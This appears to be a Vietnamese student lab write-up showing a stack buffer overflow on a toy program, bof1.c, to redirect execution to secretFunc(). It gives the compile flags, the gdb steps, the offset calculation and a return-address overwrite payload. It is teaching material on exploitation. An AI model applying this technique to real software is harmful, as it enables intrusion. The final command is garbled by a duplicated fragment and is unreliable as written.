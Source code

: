 ### Chi tiết Buffer-overflow trên file bof1.c
***
#### Mục đích của bài này là dùng buffer-overflow để gọi được hàm secretFunc()
Xem qua code ta có thể thấy lỗ hỏng nó đến từ hàm get(array) của hàm vuln(). Vì vậy ta sẽ dùng buffer-overflow để làm tràn biến array xuống phần return address và cái phần được tràn vào return adddres là địa chỉ của hàm secretFunc() thì lúc đó hàm secretFunc() sẽ được gọi


![image](https://github.com/user-attachments/assets/061f6e08-a811-4b5e-9e22-e625c0b706a3)
***
#### Các bước thực hiện
* Bước 1: Biên dịch file
  ```
  gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
  ```
* Bước 2: Lấy địa chỉ hàm secretFunc()

  Vào gdb:
  ```
  qdb -q bof1.out  
  ```
  Xem địa chỉ hàm
  ```
  disas secretFunc
  ```
  ![image](https://github.com/user-attachments/assets/3c883274-5ee1-44a6-a82a-c0161b96d775)

  => Địa chỉ hàm secretFunc() là 0x0804846b
* Bước 3: Điểm qua stackframe

  
  ![image](https://github.com/user-attachments/assets/4d515abb-0962-408a-912b-f1e2d36ce6b2)


  ta thấy mảng array chứa tối đa 200 bytes và ebp là 4 bytes nên ta cần truyền vào input 204 kí
  tự ngẫu nhiên và truyền thêm 4 bytes địa chỉ hàm secretFunc() nữa để đè lên return addr là ta có thể gọi hàm này
* Bước 4: Thực hiền truyền input
  ```
  echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out)") | ./bof1.out
  ```
  Kết quả:
  ![image](https://github.com/user-attachments/assets/eea0cbe7-a3a0-48b8-b9bc-8d79118d33b2)

  => Thành công
